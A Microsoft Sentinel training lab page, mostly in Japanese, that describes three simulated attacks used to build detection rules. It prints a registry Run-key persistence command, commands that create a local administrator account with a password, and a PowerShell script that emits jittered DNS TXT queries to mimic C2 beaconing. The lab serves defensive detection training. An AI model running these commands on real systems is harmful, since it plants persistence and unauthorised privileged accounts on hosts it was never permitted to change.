

---
lab:
  title: 演習 5 - 検出モデリングを理解する
  module: Module 7 - Create detections and perform investigations using Microsoft Sentinel
---

# <a name="module-7---lab-1---exercise-5---understand-detection-modeling"></a>モジュール 7 - ラボ 1 - 演習 5 - 検出モデリングを理解する


### <a name="task-1-understand-the-attacks"></a>タスク 1:攻撃を理解する

><bpt id="p1">**</bpt>Important: You will perform no actions in this exercise.<ept id="p1">**</ept>  These instructions are only an explanation of the attacks you will perform in the next exercise. Please carefully read this page.

攻撃パターンは、オープン ソース プロジェクトに基づいています。 https://github.com/redcanaryco/atomic-red-team


#### <a name="attack-1---persistence-with-registry-key-add"></a>攻撃 1 - レジストリ キーの追加による永続性

Attackers will add a program in the Run Registry key. This achieves persistence by making the program run every time the user logs on.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### <a name="attack-2---user-add-and-elevate-privilege"></a>攻撃 2 - ユーザーが特権を追加および昇格

Attackers will add new users and elevate the new user to the Administrators group. This enables the attacker to logon with a different account that is privileged.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### <a name="attack-3---dns--c2"></a>攻撃 3 - ドメイン ネーム サービスおよびコマンド & コントロール 

Attacker will send a large volume of DNS queries to a command and control (C2) server. The intent is to trigger threshold-based detection on the number of DNS queries either from a single source system or to a single target domain.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### <a name="task-2-understand-detection-modeling"></a>タスク 2:検出モデリングの理解

このラボで使用されている攻撃検出構成サイクルは、2つの特定のデータソースのみに焦点を当てている場合でも、すべてのデータソースを表します。

To build a detection, you first start with building a KQL statement. Since you will attack a host, you will have representative data to start building the KQL statement.


KQL ステートメントを取得したら、分析ルールを作成します。

ルールがトリガーされてアラートとインシデントが作成されたら、調査を行って、セキュリティ オペレーション アナリストの調査に役立つフィールドを提供しているかどうかを判断します。

次に、分析ルールにその他の変更を加えます。

>**注:**  一部のアラートは、ラボの目的のためだけに、より短い時間枠でトリガーされます。

## <a name="proceed-to-exercise-6"></a>演習 6 に進みます
